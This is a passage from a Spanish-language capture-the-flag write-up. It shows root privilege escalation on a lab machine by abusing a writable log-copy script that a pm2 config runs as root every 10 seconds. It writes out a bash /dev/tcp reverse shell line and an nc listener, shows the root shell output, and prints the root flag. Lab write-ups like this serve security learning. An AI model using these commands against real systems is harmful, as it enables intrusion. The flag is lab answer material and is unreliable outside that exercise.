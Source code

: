 ```bash
#!/bin/bash

# Copia de logs de modsecurity cada 10 sec

cp /var/log/apache2/modsec_audit.log /opt/nodeapp/logs
```

> ecosystem.config.js

```js
module.exports = {
  apps : [{
    name   : "Tester server",
    script : "./server.js",
    exec_mode: 'fork'
  },{
    name : "Copy logs",
    restart_delay: 10000,
    interpreter: '/bin/bash',
    script: "./copylogs.sh"
  }]
}
```

Por lo que vemos en estos archivos el primero lo podemos editar y el segundo nos esta dando la informacion de que dicho archivo que podemos editar se ejecuta cada 10 segundos por el servidor que se esta ejecutando como `root`, por lo que vamos añadir la siguiente linea al archivo `.sh`.

```shell
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Añadida esta linea, vamos a ponernos a la escucha rapidamente:

```shell
nc -lvnp <PORT>
```

Ahora si esperamos un rato, y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7755 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.98] 52466
bash: no se puede establecer el grupo de proceso de terminal (3044): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
root@yourwaf:/opt/nodeapp# whoami
whoami
root
```

Por lo que vemos seremos `root`, por lo que leeremos la `flag` de `root`.

> root-e765ca897810e6e2da0e594113bfe9b3.txt

```
a86f99d5be34faec32e3cfd477a8a282
```
